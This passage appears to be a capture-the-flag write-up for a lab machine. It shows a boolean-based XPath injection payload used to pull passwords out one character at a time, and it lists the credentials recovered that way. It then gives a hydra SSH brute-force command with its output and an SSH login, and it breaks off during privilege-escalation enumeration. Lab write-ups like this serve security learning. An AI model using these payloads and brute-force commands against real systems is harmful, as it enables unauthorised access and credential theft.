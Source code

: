 * after some time on brupSuite testing XPath injection i found a way to extract password strings using xpath injection like sqli.

  **Payload :** `' or Username='bryan'and substring(Password,$i,1)='$c`

* i create a bruteforce [script](exploit-scr/xpath_bf.py) that extract password from database using XPath vulnerability. **payload is worked like a sql boolean based injection.** when `$i=$c` then page return `Username` contact details, and if `$i!=$c` then page return `Invalid credentials.`*where **i** is a int and **c** is a char*

  * it takes some time to extract all password form the database

**creds**
```
rita:password01!
jim:stairwaytoheaven
bryan:ireallyl0vebubblegum!!!
sarah:sarah4evah
```

## ssh bruteforce

`hydra -L usernames -P password 10.10.10.200 -t 4 ssh`
```diff
 [DATA] attacking ssh://10.10.10.200:22/
+[22][ssh] host: 10.10.10.200   login: bryan   password: ireallyl0vebubblegum!!!
 1 of 1 target successfully completed, 1 valid password found
```

**ssh-creds :** `bryan:ireallyl0vebubblegum!!!`


## USER:bryan shell

`ssh bryan@10.10.10.200`
```diff
+bryan@10.10.10.200's password: ireallyl0vebubblegum!!!

Linux unbalanced 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

bryan@unbalanced:~$ cat user.txt
f91a0994************************
```

# Privesc enumeration

* in the bryan home folder there is a `TODO` file and inside the file there is a service specified that is running on localhost -

	  ###########
	  # Pi-hole #
	  ###########
	  * Install Pi-hole docker (only listening on 127.0.0.1) [DONE]
	  * Set temporary admin password [DONE]
	  * Create Pi-hole configuration script [IN PROGRESS]
	  - Run Pi-hole configuration script [TODO]
	  - Expose Pi-hole ports to the network [TODO]
